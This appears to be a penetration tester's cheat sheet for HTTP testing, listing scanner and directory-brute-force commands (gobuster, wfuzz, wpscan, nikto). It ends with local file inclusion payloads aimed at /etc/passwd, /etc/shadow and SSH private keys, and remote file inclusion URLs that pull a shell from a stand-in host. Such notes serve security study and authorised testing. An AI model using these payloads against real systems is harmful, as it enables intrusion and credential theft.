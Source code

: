 # HTTP General Notes

## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## Manual Connect

Using **openssl** to connect to a webserver (HTTPS):

```sh
openssl s_client -connect hack.me:443 [-debug] [-state] [-quiet]
```

- Debug flag optional.
- State is optional - prints the state of the handshake.
- Quiet is optional. 

Using **Httprint** to identify web servers:
`httprint -P0 -h <target hosts> -s <signature file>`

- `-P0` to avoid pinging the host first
- `-h` the list of hosts (IP addresses/IP range)
- `-s` signature file to use

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 

```
/usr/share/wordlists/dirb/common.txt
/usr/share/wordlists/dirbuster/*.txt
/usr/share/wordlists/wfuzz/general/*.txt
/usr/share/seclists/Discovery/Web-Content/
```

Common Wordlists to use for User Enumeration Scanning: 

```
/usr/share/seclists/Usernames
/usr/share/wordlists/dirbuster/apache-user-enum-2.0
```

## Web App Scanners

### Nikto: 

- `nikto --url <domain>`

### Wpscan:

- `wpscan --url <domain>`
- `wpscan --url <domain> --enumerate ap at` (All Plugins, All Themes)
- `wpscan --url <domain> --enumerate u` (Usernames)
- `wpscan --url <domain> --enumerate v`

## Web Tools for Directory Scanning: 

### Dirb: 

- `dirb <domain>`
- `dirb <domain> <wordlist>`

### Gobuster: 

- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file>`
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox` (Custom Agent)
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html`
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt`
- `gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'`
	

### Wfuzz:

- `wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ`
- `wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ`
- `wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php` (Post Requests)
- `wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ` (Fuzzing Cookies)

### Dirsearch: 

- `dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php`


## Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:

```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```

## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241
